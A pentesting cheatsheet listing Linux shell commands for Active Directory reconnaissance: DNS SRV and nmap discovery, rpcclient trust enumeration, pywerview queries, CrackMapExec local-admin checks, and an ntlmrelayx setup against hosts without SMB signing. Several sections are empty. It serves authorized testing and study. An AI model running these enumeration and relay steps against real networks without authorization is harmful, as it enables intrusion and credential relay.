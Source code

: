 ```yaml
---
layout: post
title: TA0007 Discovery - AD Collection & Enumeration with Linux
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2023-01-06
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [SHOOT General Properties](#SHOOTGeneralProperties)
	* [Domain properties](#Domainproperties)
	* [Forest properties](#Forestproperties)
	* [Kerberos Delegations](#KerberosDelegations)
	* [Privileged Users](#PrivilegedUsers)
	* [Privileged Machines](#PrivilegedMachines)
	* [Great ressources](#Greatressources)
* [ITER](#ITER)
	* [User groups](#Usergroups)
	* [Scope of compromise](#Scopeofcompromise)
* [REFRESH](#REFRESH)
* [MISC](#MISC)
	* [ RELAY: SMBv2 SIGNING NOT REQUIRED](#RELAY:SMBv2SIGNINGNOTREQUIRED)
	* [CRACKING HASHES](#CRACKINGHASHES)
	* [Docker Impacket RPCdump](#DockerImpacketRPCdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='SHOOTGeneralProperties'></a>SHOOT General Properties

### <a name='Domainproperties'></a>Domain properties

```sh
# Identify the DC / DHCP services 
nmap --script broadcast-dhcp-discover
sudo tcpdump -ni eth0 udp port 67 and port 68

dig -t SRV _gc._tcp.contoso.com
dig -t SRV _ldap._tcp.contoso.com
dig -t SRV _kerberos._tcp.contoso.com
dig -t SRV _kpasswd._tcp.contoso.com

nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='contoso.com'"

nbtscan -r 10.0.0.0/24

# Enum domains and trusts
rpcclient -U "johndoe" 10.1.1.1
rpcclient> enumdomains
rpcclient> enumtrusts

# Get the IP subnetting / IP plan
cut -f1 -d" " trusts.txt > trusts_clean.txt                                                        │
for i in `cat trusts_clean.txt`; do ping -a $i; done                                               │
```

### <a name='Forestproperties'></a>Forest properties
```sh
```

### <a name='KerberosDelegations'></a>Kerberos Delegations
```sh
```

### <a name='PrivilegedUsers'></a>Privileged Users
```sh
```

### <a name='PrivilegedMachines'></a>Privileged Machines
```sh
```

### <a name='Greatressources'></a>Great ressources
```sh
| **Ressource**  | **Description** |    **Author**    |
|-----------------|-----------------|------------------|
| [Fun with LDAP & Kerberos - ThotCon 2017](https://github.com/jomivz/cybrary/blob/master/purpleteam/red/windows/LDAP%20Service%20and%20Kereberos%20Protocol%20Attacks.pdf) | AD Enumeration on Linux OS. [YT](https://www.youtube.com/watch?v=2Xfd962QfPs) | Ronnie Flathers |
| [RPCclient cookbook](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) | | |
| [Other LDAP queries examples](https://theitbros.com/ldap-query-examples-active-directory/) | | |
| [Other LDAP queries examples](https://posts.specterops.io/an-introduction-to-manual-active-directory-querying-with-dsquery-and-ldapsearch-84943c13d7eb) | | specterops |
```

## <a name='ITER'></a>ITER

### <a name='Usergroups'></a>User groups
```bash
# Get user info
python pywerview.py get-netuser -w $zdom_fqdn -u $zlat_user -p $zlat_pwd --dc-ip $zdom_dc_ip --username $ztarg_user > pt_xxx_getnetuser_x.txt

# Get user info + canarytoken check
# select cn, whenCreated, accountExpires, pwdLastSet, lastLogon, logonCount, badPasswordTime, badPwdCount

# Get user memberof info
python pywerview.py get-netgroup -w $zdom_fqdn -u $zlat_user -p $zlat_pwd --dc-ip $zdom_dc_ip --username $ztarg_user| grep -v "^$" | cut -f2 -d" "  > pt_xxx_getnetgroup_x.txt 

# Get the machine's OU
python pywerview.py get-netcomputer -w $zdom_fqdn -u $zlat_user -p $zlat_pwd --dc-ip $zdom_dc_ip --computername --full-data | grep 

# Get the machines based on an adspath / OU
ztarg_ou = "OU=Workstations,DC=CONTOSO,DC=COM"
ztarg_adspath = "ldap://" + $ztarg_ou
python pywerview.py get-netcomputer -w $zdom_fqdn -u $zlat_user -p $zlat_pwd -a $ztarg_adspath --dc-ip $zdom_dc_ip | grep -v "^$" | cut -f2 -d" " > pt_xxx_getnetcomputer_ou_x.txt
```

### <a name='Scopeofcompromise'></a>Scope of compromise 
```bash
# Find where the account is local admin V1
for i in $(cat pt_xxx_getnetcomputer_ou_x.txt); do python pywerview.py invoke-checklocaladminaccess -u $zlat_user -p $zlat_pwd --computername $i; done 

# Find where the account is local admin V2
cme winrm pt_xxx_getnetcomputer_ou_x.txt -d $zdom_fqdn -u $zlat_user -p $zlat_pwd
cme smb pt_xxx_getnetcomputer_ou_x.txt -d $zdom_fqdn -u $zlat_user -p $zlat_pwd

# Get the DNs of the owned machines 

# Get the OS of the owned machines 

```

## <a name='REFRESH'></a>REFRESH
```bash
```

## <a name='MISC'></a>MISC

### <a name='RELAY:SMBv2SIGNINGNOTREQUIRED'></a> RELAY: SMBv2 SIGNING NOT REQUIRED
```sh
# STEP 1: find smb not signed
nmap -p 445 --script smb2-security-mode 10.0.0.0/24 -o output.txt

# STEP 2: set up impacket/ntlmrelayx
grep -B 9 "not required" output.txt |sed -E '/.*\((.*\..*\..*\..*)\)$/!d' |sed -E 's/.*\((.*\..*\..*\..*)\)$/\1/' > targets.txt
python3 ntlmrelayx.py -tf targets.txt -smb2support

```

### <a name='CRACKINGHASHES'></a>CRACKING HASHES
```sh
# Get the domain pasword policy
rpcclient -U "johndoe" 10.1.1.1
rpcclient> getdompwinfo
```

### <a name='DockerImpacketRPCdump'></a>Docker Impacket RPCdump
```
sudo docker run --rm -it -p 134:135 rflathers/impacket rpcdump.py -port 135 1.3.8.3 > rpcdump_10.3.8.3.txt
```